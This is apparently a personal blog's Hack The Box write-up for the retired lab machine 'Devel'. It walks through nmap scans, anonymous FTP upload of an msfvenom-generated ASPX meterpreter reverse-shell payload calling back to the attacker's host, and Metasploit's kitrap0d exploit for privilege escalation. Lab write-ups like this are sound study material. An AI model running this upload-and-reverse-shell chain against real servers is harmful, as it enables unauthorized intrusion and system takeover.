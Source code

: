 ```yaml
---
layout: post
title: Sample post
subtitle: Something is written here.
tags: [test]
---
```

This is a sample page. Blog is coming soon. Thank you.

Hello Guys, This is my first HACK-THE-BOX writeup. This write-up is for the retired machine `DEVEL`.

So with out making any delay, we will start with a nmap scan. I always start with a full port scan using below nmap command.

```
nmap -p- --min-rate 5000 10.10.10.5 -oA nmap/fullport
```

![nmap scan](assets/img/htb-devel/fullport.png)

Then we will go for another scan with `A` flag and for specific open ports.

```
nmap -p 21,80 -A 10.10.14.3 -oA nmap/portscan
```

![portscan](assets/img/htb-devel/portscan.png)

So we can see here port 21/TCP - FTP and 80/TCP - HTTP are open.

For port 21, we can see that anonymous login is enabled. Let's login to port 21.

```
ftp 10.10.10.5
```

![ftp](assets/img/htb-devel/ftp.png)

Checked the directory aspnet_client but there's nothing much useful.

Now we can check the port 80 and see if we find anything useful. Opened the site in a web browser and found a default IIS7 page. It contains an image, when we check the image name in source page it is welcome.png.

![http](assets/img/htb-devel/http.png)

From the ftp directory listing we saw that there was a png file with name "wecome.png". Let's upload a file to ftp and see if we can access that from port 80. 

![ftptest](assets/img/htb-devel/ftptest.png)

And yes, that was accessible. Now we can load a aspx meterpreter payload and try to get a reverseshell.

Let's generate a payload using msfvenom.
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f aspx > shell.aspx 
```

Now the payload can be uploaded to the server using ftp.

![ftpupload](assets/img/htb-devel/ftpupload.png)

Let's open a metasploit listener for the payload. We have to set the options as per the msfvenom command.

![meterpreter](assets/img/htb-devel/meterpreter.png)

Now try to access the `shell.aspx` page and boom. We got the meterpreter session open for us. 

![shell](assets/img/htb-devel/shell.png)

But unfortunately we can't access the user directory. So we have to go for the privilege escalation. For that we can look for the `suggester` in metasploit. We can set the session to our open meterpreter session and hit `run`.

![suggested](assets/img/htb-devel/suggested.png)

We can try the exploits and see if we get the root access. While trying each exploit, I found that `windows/local/ms10_015_kitrap0d` seems to be working fine for me and I got the root access.

![root](assets/img/htb-devel/root.png)

Let's look for the flags.

![flags](assets/img/htb-devel/flags.png)

That's all about this write-up. Thanks for reading.
